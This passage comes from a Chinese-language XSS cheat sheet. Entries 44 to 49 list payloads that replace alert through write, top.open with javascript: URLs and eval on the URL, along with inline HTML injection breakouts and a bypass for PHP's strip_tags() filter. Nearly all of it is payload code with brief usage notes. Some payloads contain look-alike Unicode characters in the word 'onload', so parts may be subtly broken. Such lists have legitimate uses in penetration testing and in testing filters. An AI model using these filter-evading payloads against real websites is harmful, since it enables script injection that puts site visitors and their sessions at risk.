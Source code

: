 ##### 44.Alert Alternative – Write & Writeln (弹窗代替方案-Write & Writeln)

```
以下payload用作弹窗函数:alert，prompt,confirm的替代方法。 如果在HTML标签块中则可以直接使用，但如果是javascript注入，则需要完整的"document.write"形式。 URL中将"＆"替换为"％26"，将"＃"替换为"％23"。 可以用writeln代替Write。 

write`XSSed!`
write`<img/src/oNerror=alert(1)>`
write('\74img/src/o\156error\75alert\501\51\76')
```

##### 45.Alert Alternative – Open Pseudo-Protocol (弹窗代替方案-使用伪协议打开)  

```
以下payload用作弹窗函数:alert，prompt,confirm的替代方法。 以上技巧也适用于此。 但只有第二个payload可以在基于Chromium的浏览器中触发，并且需要<iframe name = 0>。

top.open`javas\cript:al\ert\x281\x29`
top.open`javas\cript:al\ert\x281\x29${0}0`
```

##### 46.Alert Alternative - Eval + URL (弹窗代替方案-eval+url)  

```
以下payload用作弹窗函数:alert，prompt,confirm的替代方法。第一个payload是原始形式，第二个payload是eval，它使用payload的id属性值替换eval。 URL必须采用以下方式:在PHP扩展后的URL路径中或URL的片段中。 加号（+）必须用URL进行编码。

<svg οnlοad=eval(" ' "+URL)>
<svg id=eval οnlοad=top[id](" ' "+URL)>
PoC URL必须包含以下之一： 

=> FILE.php/'/alert(1)//?...
=> #'/alert(1)
```

##### 47.Alert Alternative - Eval + URL with Template Literal (弹窗代替方案-带有模板文字的Eval + URL) 

```
${alert(1)}<svg οnlοad=eval('`//'+URL)>
```


##### 48.HTML Injection - Inline Alternative (HTML注入-内联替代)  以下payload用于绕过黑名单。

```
"onpointerover=alert(1) //
"autofocus οnfοcusin=alert(1) //

```

##### 49.Strip-Tags Based Bypass (基于去除标签的绕过)

```
以下payload用于,当过滤器filter去掉<and>标签字符之间的任何内容时进行测试，如PHP的strip_tags()功能,但仅限内联注入 

"o<x>nmouseover=alert<x>(1)//
"autof<x>ocus o<x>nfocus=alert<x>(1)//
```
